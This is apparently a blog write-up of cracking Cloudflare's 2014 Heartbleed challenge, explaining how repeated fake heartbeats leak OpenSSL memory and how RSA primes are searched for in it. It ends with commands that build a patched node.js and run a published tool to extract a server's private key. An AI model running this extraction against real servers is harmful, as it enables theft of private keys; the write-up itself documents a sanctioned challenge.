 # Cracking Cloudflare's heartbleed challenge

## Challenge

At April 11 2014 Cloudflare has published a [blog post][0] suggesting to
try out extracting a private key of their specially prepared
[challenge site][1] using the [Heartbleed][2] OpenSSL vulnerability. Being busy
at the time, I decided to give it a try a couple of hours later, if no one would
crack it yet. This was a legal way to do some hackery, after all!

## Method

The method of attack was following:

1. Send a lot of random-sized fake heartbeats (without body)
2. Try to find a 128-byte prime factor of the certificate's [modulus][3]
3. Generate the rest of the private key's parameters out of it

I wasn't searching for a PEM-encoded private key and/or:

```
-----BEGIN RSA PRIVATE KEY-----
```

for a couple of reasons:

* It is loaded only at the process startup
* The key may be encrypted, and there is no point in brute forcing it

According to my tests, DER-encoded key wasn't appearing in the memory either, so
trying to extract primes that are definitely in memory seem more feasible,
because they are stored in the following struct in OpenSSL:

```C
struct rsa_st
  {
  /* The first parameter is used to pickup errors where
   * this is passed instead of aEVP_PKEY, it is set to 0 */
  int pad;
  long version;
  const RSA_METHOD *meth;
  /* functional reference if 'meth' is ENGINE-provided */
  ENGINE *engine;
  BIGNUM *n;
  BIGNUM *e;
  BIGNUM *d;
  BIGNUM *p;
  BIGNUM *q;
  BIGNUM *dmp1;
  BIGNUM *dmq1;
  BIGNUM *iqmp;
  /* be careful using this if the RSA structure is shared */
  CRYPTO_EX_DATA ex_data;
  int references;
  int flags;

  /* Used to cache montgomery values */
  BN_MONT_CTX *_method_mod_n;
  BN_MONT_CTX *_method_mod_p;
  BN_MONT_CTX *_method_mod_q;

  /* all BIGNUM values are actually in the following data, if it is not
   * NULL */
  char *bignum_data;
  BN_BLINDING *blinding;
  BN_BLINDING *mt_blinding;
  };
```

Where `BIGNUM` is:

```C
struct bignum_st
  {
  BN_ULONG *d;	/* Pointer to an array of 'BN_BITS2' bit chunks. */
  int top;	/* Index of last used d +1. */
  /* The next are internal book keeping for bn_expand. */
  int dmax;	/* Size of the d array. */
  int neg;	/* one if the number is negative */
  int flags;
  };
```

And `d` field of `BIGNUM` is a pointer to a little-endian representation of the
number. Note that I could have been searching for a `dmp1`, `dmpq1` or `iqmp` as
well, but I was too lame at the time to put this in my tests.

## Implementation

Being a node.js core developer, the platform choice for the extraction script
was obvious to me. Unfortunately, since node.js is embedding OpenSSL and
exposing only some limited amount of methods as a JavaScript API, the
[patch to add fake heartbeat methods][4] was needed.

Having this at hand, the implementation was almost straightforward. It is
available as an [OpenSource project on github][5] now. Here are instructions for
obtaining and using it:

```bash
git clone git://github.com/indutny/heartbleed
git clone git://github.com/joyent/node -b v0.10.26 node-hb
cd node-hb
git apply ../heartbleed/node-v0.10.26.patch
./configure --prefix=$HOME/.node/0.10.26-hb
make -j24 install
ls ./node

export PATH="$HOME/.node/0.10.26-hb/bin:$PATH"
npm install -g heartbleed

heartbleed -h cloudflarechallenge.com -c 1000 >> key.pem
```

Note that it won't produce any result immediately, it took me 3 hours and a
certain amount of luck to obtain the key in a Cloudflare's challenge.

[0]: http://blog.cloudflare.com/answering-the-critical-question-can-you-get-private-ssl-keys-using-heartbleed
[1]: https://www.cloudflarechallenge.com/heartbleed
[2]: http://heartbleed.com/
[3]: http://en.wikipedia.org/wiki/RSA_(cryptosystem)#Key_generation
[4]: https://github.com/indutny/heartbleed/blob/master/node-v0.10.26.patch
[5]: https://github.com/indutny/heartbleed
